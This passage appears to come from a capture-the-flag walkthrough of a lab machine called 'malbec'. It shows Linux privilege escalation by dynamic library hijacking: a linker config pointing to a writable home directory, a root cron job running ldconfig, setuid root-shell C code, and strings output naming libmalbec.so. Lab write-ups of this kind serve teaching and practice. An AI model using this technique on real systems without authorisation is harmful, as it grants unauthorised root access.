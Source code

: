 ### Dynamic Library Hijacking

If we could write to the directory where the library is expected to be, we may be able to hijack the library call and execute arbitrary code. Let's inspect the /etc/ld.so.conf.d/ directory to determine which shared library configuration files are available.
```bash 
carlos@malbec:/home/carlos$ ls -l /etc/ld.so.conf.d/
ls -l /etc/ld.so.conf.d/
total 20
-rw-r--r-- 1 root root  38 Jun 25  2018 fakeroot-x86_64-linux-gnu.conf
-rw-r--r-- 1 root root 168 May  1  2019 i386-linux-gnu.conf
-rw-r--r-- 1 root root  44 Mar 20  2016 libc.conf
-rw-r--r-- 1 root root  14 Jan 26 04:43 malbec.conf
-rw-r--r-- 1 root root 100 May  1  2019 x86_64-linux-gnu.conf
```
The malbec.conf configuration file contains the following:
```bash 
carlos@malbec:/home/carlos$ cat /etc/ld.so.conf.d/malbec.conf
cat /etc/ld.so.conf.d/malbec.conf
/home/carlos/
```
The binary searches /home/carlos/ for the shared library. This is perfect for our purposes as /home/carlos/ is the home directory of our user, which means we should have no problem writing our malicious library.

The /etc/crontab file indicates that the /sbin/ldconfig dynamic linker process runs every two minutes and forces /usr/bin/messenger to search for libmalbec.so and link it if it is found.
```bash 
carlos@malbec:/home/carlos$ cat /etc/crontab
cat /etc/crontab
...
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/2 * * * * root /sbin/ldconfig
```
Having obtained all this information, we should be able to abuse this functionality. We'll use the following basic root shell C code:
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
As this is a shared library, we must determine the method the calling method of the messenger binary. Before compiling our exploit, let's run strings on the binary to help gather clues about the name of our exploit method.
```bash 
carlos@malbec:/home/carlos$ strings /usr/bin/messenger
strings /usr/bin/messenger
/lib64/ld-linux-x86-64.so.2
...
_ITM_deregisterTMCloneTable
__gmon_start__
malbec
__libc_start_main
libmalbec.so
...
```